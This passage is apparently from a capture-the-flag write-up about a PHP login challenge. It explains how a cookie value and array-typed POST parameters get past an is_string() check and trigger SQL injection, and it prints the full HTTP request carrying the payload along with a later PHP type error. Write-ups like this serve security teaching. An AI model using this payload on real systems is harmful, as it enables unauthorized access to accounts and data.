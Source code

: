 So if we inject a code=lol in our cookies and a payload to perform the SQL injection on the code field, we will get something like:

`$_REQUEST['code']` = lol <br>
`$_POST['code']` = `[LIKE, %%]`

So the is_string() check passes, and the SQL Injection happens, lets take a look at the request which contains the payload:

```http
POST /register.php HTTP/1.1
Host: lvh.me:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://lvh.me:8000
Connection: keep-alive
Referer: http://lvh.me:8000/register.php
Cookie: PHPSESSID=a8aa98f03bcf527e0a144b90d0f87dbf; code=lol <- !!!
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=lol&password=hi&code[]=LIKE&code[]=%%
```

And it works, the server returns is_string('lol') = true, and injects our code in the POST body allowing us to log in.

## Now what?

We are logged in now what?
- We do not have perms to read the flag
- We can not register as admin
- We cannot set perms
- We cannot inject code to further exploit the SQLi vulnerability


At this point I am stuck so I decide to check if I can use the same SQLi via the array in login, to login as admin. That is when I get this error

```
<br />
<b>Fatal error</b>: Uncaught TypeError: check_user_exists(): Argument #1 ($user) must be of type string, array given, called in /app/login.php on line 17 and defined in /app/inc/users.php:15
Stack trace:
#0 /app/settings.php(17): check_user_exists(Array)
#1 {main}
thrown in <b>/app/inc/required.php</b> on line <b>15</b><br />
```

The program crashes because it enforces this is a string on the function parameters declaration

```php
check_user_exists(string $username) { ... }
```

